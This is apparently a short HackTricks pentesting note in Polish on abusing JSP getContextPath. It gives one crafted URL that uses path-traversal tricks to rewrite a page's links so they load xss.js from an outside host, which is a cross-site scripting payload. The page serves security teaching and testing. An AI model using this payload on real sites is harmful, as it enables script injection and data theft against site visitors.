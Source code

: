 # JSP

{{#include ../../banners/hacktricks-training.md}}

## **getContextPath** nadużycie

Informacje z [here](https://blog.rakeshmane.com/2020/04/jsp-contextpath-link-manipulation-xss.html).
```
http://127.0.0.1:8080/&sol;rakeshmane.com/xss.js&num;/..;/..;/contextPathExample/test.jsp
```
Uzyskując dostęp do tej strony, możesz zmienić wszystkie linki, aby żądać informacji z _**rakeshmane.com**_:

![](<../../images/image (326).png>)

{{#include ../../banners/hacktricks-training.md}}
